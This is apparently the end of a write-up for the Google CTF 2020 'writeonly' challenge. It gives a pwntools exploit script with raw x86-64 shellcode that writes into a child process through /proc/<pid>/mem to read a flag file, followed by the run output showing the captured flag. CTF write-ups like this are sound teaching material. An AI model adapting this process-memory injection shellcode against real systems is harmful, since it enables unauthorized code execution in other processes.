 ```python
shellcode = b'PH\xc7\xc7\x0f\x05\x00\x00WH\xbf\xffH\xc7\xc0<\x00\x00\x00WH\xbf\x01\x00\x00\x00\x0f\x05H1WH\xbf\xc7\x01\x00\x00\x00H\xc7\xc0WH\xbf\x00\x0f\x05H\x89\xc2H\xc7WH\xbf\x00\x00H\xc7\xc0\x00\x00\x00WH\xbfH\x89\xc7H\xc7\xc2\x00\x01WH\xbfH1\xf6\x0f\x05H\x89\xfeWH\xbf\xe7H\xc7\xc0\x02\x00\x00\x00WH\xbfme/usWH\x89WH\xbfg\x00WH\xbf/hoWH\xbfH\xbfer/flaWH\x89\xe3H\xbfmem\x00\x00\x00\x00\x01WH\xbf/proc/2/WH\x89\xe7H\xc7\xc6\x01\x00\x00\x00H\xc7\xc0\x02\x00\x00\x00\x0f\x05H\x89\xc7H\xc7\xc6\xe3"@\x00H\xc7\xc2\x01\x00\x00\x00H\xc7\xc0\x08\x00\x00\x00\x0f\x05H\x89\xdeH\xc7\xc2Z\x00\x00\x00H\xc7\xc0\x01\x00\x00\x00\x0f\x05H\x83\xc4p_H\x81\xc7\xe7\x00\x00\x00H\xc7\xc0\x18\x00\x00\x00\x0f\x05\xff\xe7H1\xffH\xc7\xc0<\x00\x00\x00\x0f\x05'

p = process(["./chal"])
# p = remote("writeonly.2020.ctfcompetition.com", 1337)

init = p.recvuntil(b"length? ")

# extract the pid of the child process
m = re.search(br"child pid: (\d+)", init)
assert m
pid = int(m.group(1))

log.info(f"Child pid = {pid}")

# replace pid in shellcode
# this is rather lengthy, but we have to make sure the alignment is kept intact
pid = str(pid).encode("utf-8")
if len(pid) == 1:
    shellcode = shellcode.replace(b"/proc/2/", b"/proc/%s/" % pid)
else:
    shellcode = shellcode.replace(b"/proc/2/", b"/proc/%s" % pid[:2])
    shellcode = shellcode.replace(b"mem\x00\x00\x00\x00\x01", (b"%s/mem" % pid[2:]).ljust(8, b"\x00"))

p.sendline(b"%d" % len(shellcode))
p.recvuntil(b"shellcode. ")
p.send(shellcode)

p.interactive()
```

The moment of truth:
```
$ python3 exploit.py
[+] Opening connection to writeonly.2020.ctfcompetition.com on port 1337: Done
[*] Child pid = 2
[*] Switching to interactive mode
CTF{why_read_when_you_can_write}

```

Overall it was a fun challenge and a good practice for my (lacking) assembler skills.
I hope you liked it, too.
Happy hacking!

